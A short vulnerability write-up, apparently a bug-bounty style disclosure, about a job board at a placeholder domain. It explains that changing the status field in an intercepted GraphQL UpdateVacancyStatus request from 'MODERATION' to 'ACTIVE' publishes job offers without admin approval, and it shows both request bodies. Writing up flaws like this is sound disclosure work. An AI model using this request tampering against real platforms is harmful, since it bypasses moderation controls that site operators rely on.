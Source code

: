 # Flaw in Job Offer Approval Process

The website https://example.com/ provides a platform for publishing job offers, but it requires admin approval for any new job offers. In the final step of the process, the application makes a **POST** request to **/api/graphql**, calling for **UpdateVacancyStatus**. This request includes the variables **vacancyId** and **status**, with the status set to **"MODERATION."**

```
{
  "operationName": "UpdateVacancyStatus",
  "variables": {
    "vacancyId": "10132",
    "status": "MODERATION"
  }
}
```

4. **Exploitation:** However, by intercepting and modifying this request, an attacker can change the status from **"MODERATION"** to **"ACTIVE"** before admin approval is granted.

```
{
  "operationName": "UpdateVacancyStatus",
  "variables": {
    "vacancyId": "10132",
    "status": "ACTIVE"
  }
}
```

**Result:** This manipulation bypasses the intended approval process, allowing unauthorized job offers to be published without admin oversight.
